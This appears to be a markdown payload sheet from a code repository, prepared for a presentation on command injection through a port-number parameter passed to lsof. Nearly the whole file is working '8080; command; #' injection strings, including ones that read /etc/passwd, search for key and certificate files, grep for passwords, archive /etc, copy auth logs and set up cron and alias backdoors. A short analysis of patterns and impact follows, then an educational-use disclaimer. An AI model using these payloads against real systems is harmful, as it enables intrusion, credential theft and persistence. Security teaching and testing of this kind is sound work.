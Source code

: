 # Type Coercion Attack Payloads

## 🎯 Main Exploits (For Presentation)

### 1. Basic Type Coercion Attack
**Payload:** `8080; touch /tmp/owned; #`
**Effect:** Appends new command, leaves system marker
**Injected Command:** `lsof -t -i tcp:8080; touch /tmp/owned; #`

```bash
8080; touch /tmp/owned; #
8080; echo "HACKED" > /tmp/evil; #
8080; whoami > /tmp/user_info; #
8080; id > /tmp/identity; #
```

### 2. Information Gathering
**Payload:** `8080; uname -a > /tmp/system_info; #`
**Effect:** Gathers system information for reconnaissance

```bash
8080; uname -a > /tmp/system_info; #
8080; cat /etc/passwd > /tmp/passwd_copy; #
8080; ps aux > /tmp/processes; #
8080; netstat -tuln > /tmp/network; #
```

### 3. File System Manipulation
**Payload:** `8080; mkdir -p /tmp/backdoor; #`
**Effect:** Manipulates file system for persistence

```bash
8080; mkdir -p /tmp/backdoor; #
8080; rm -f /tmp/cleanup; #
8080; chmod 777 /tmp/evil_file; #
8080; ln -s /etc/passwd /tmp/passwd_link; #
```

### 4. Network Reconnaissance
**Payload:** `8080; ping -c 1 8.8.8.8 > /tmp/ping_test; #`
**Effect:** Performs network reconnaissance

```bash
8080; ping -c 1 8.8.8.8 > /tmp/ping_test; #
8080; curl -s http://ifconfig.me > /tmp/external_ip; #
8080; nslookup google.com > /tmp/dns_test; #
8080; traceroute 8.8.8.8 > /tmp/route_test; #
```

### 5. Data Exfiltration
**Payload:** `8080; tar -czf /tmp/data.tar.gz /etc/; #`
**Effect:** Exfiltrates sensitive data

```bash
8080; tar -czf /tmp/data.tar.gz /etc/; #
8080; find /home -name "*.txt" -exec cat {} \; > /tmp/text_files; #
8080; grep -r "password" /etc/ > /tmp/passwords; #
8080; cat /proc/version > /tmp/kernel_info; #
```

---

## 🔧 Additional Exploits (For Reference)

### Persistence Mechanisms
```bash
8080; echo "*/5 * * * * /tmp/backdoor.sh" >> /tmp/cron_job; #
8080; echo "alias ls='ls && /tmp/backdoor.sh'" >> /tmp/alias; #
8080; echo "export PATH=/tmp:$PATH" >> /tmp/path_mod; #
```

### Demonstration Payloads (Safe for Demo)
```bash
8080; touch /tmp/type_coercion_demo; #
8080; echo "Type coercion attack successful" > /tmp/demo_result; #
8080; date > /tmp/attack_timestamp; #
8080; echo $USER > /tmp/current_user; #
```

### Advanced Techniques
```bash
# Command chaining
8080; touch /tmp/file1 && echo "success" > /tmp/file2; #

# Conditional execution
8080; [ -f /etc/passwd ] && cat /etc/passwd > /tmp/exists; #

# Background execution
8080; nohup sleep 1000 > /tmp/background 2>&1 & #

# Environment variable manipulation
8080; export EVIL_VAR="malicious" && echo $EVIL_VAR > /tmp/env_test; #
```

### File System Enumeration
```bash
8080; find / -name "*.conf" -type f 2>/dev/null > /tmp/configs; #
8080; find / -name "*.key" -type f 2>/dev/null > /tmp/keys; #
8080; find / -name "*.pem" -type f 2>/dev/null > /tmp/certs; #
8080; find / -name "*.db" -type f 2>/dev/null > /tmp/databases; #
```

### Process Enumeration
```bash
8080; ps -ef > /tmp/all_processes; #
8080; pstree > /tmp/process_tree; #
8080; lsof -i > /tmp/network_connections; #
8080; netstat -tulpn > /tmp/listening_ports; #
```

### User Enumeration
```bash
8080; cat /etc/passwd | grep -v nologin > /tmp/users; #
8080; cat /etc/group > /tmp/groups; #
8080; who > /tmp/logged_users; #
8080; w > /tmp/active_users; #
```

### System Information
```bash
8080; cat /proc/cpuinfo > /tmp/cpu_info; #
8080; cat /proc/meminfo > /tmp/memory_info; #
8080; df -h > /tmp/disk_usage; #
8080; mount > /tmp/mounted_fs; #
```

### Network Information
```bash
8080; ip addr > /tmp/network_interfaces; #
8080; ip route > /tmp/routing_table; #
8080; cat /etc/hosts > /tmp/hosts_file; #
8080; cat /etc/resolv.conf > /tmp/dns_config; #
```

### Service Enumeration
```bash
8080; systemctl list-units --type=service > /tmp/services; #
8080; systemctl list-units --type=socket > /tmp/sockets; #
8080; systemctl list-units --type=timer > /tmp/timers; #
8080; systemctl list-units --type=target > /tmp/targets; #
```

### Configuration Files
```bash
8080; cat /etc/ssh/sshd_config > /tmp/ssh_config; #
8080; cat /etc/apache2/apache2.conf > /tmp/apache_config; #
8080; cat /etc/nginx/nginx.conf > /tmp/nginx_config; #
8080; cat /etc/mysql/my.cnf > /tmp/mysql_config; #
```

### Log Files
```bash
8080; tail -n 100 /var/log/auth.log > /tmp/auth_logs; #
8080; tail -n 100 /var/log/syslog > /tmp/system_logs; #
8080; tail -n 100 /var/log/apache2/access.log > /tmp/apache_logs; #
8080; journalctl --no-pager > /tmp/journal_logs; #
```

---

## 📊 Attack Analysis

### Common Patterns
1. **Command Separators:** `;`, `&&`, `||`, `|`
2. **Comment Characters:** `#`, `--`
3. **Subshell Execution:** `$()`, `\`\``
4. **Redirection:** `>`, `>>`, `<`

### Attack Vectors
1. **Direct Command Injection:** `8080; command; #`
2. **Parameter Pollution:** `8080 && command`
3. **Output Redirection:** `8080; command > file; #`
4. **Process Substitution:** `8080; command <(input); #`

### Impact Assessment
- **Information Disclosure:** System enumeration, file access
- **Data Exfiltration:** Sensitive file copying, network access
- **Privilege Escalation:** SUID exploitation, sudo abuse
- **Persistence:** Backdoor installation, cron jobs
- **Destruction:** File deletion, system corruption

---

**⚠️ WARNING: These payloads are for educational purposes only. Only use in isolated, controlled environments.** 